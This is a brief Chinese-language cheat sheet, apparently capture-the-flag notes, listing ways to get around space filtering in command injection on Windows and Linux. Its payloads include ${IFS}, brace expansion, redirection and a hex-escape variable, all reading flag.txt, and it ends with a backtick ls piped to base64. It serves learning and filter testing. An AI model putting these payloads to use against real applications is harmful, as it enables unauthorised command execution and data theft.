 # 绕过空格过滤
## windows
```type.\flag.txt
type,flag.txt
echo,123456
```

## linux
```{cat,flag.txt} 
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat$IFS$1flag.txt
cat<flag.txt
%09替换
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)
```
## 例子
cat$IFS$1\`ls`|base64;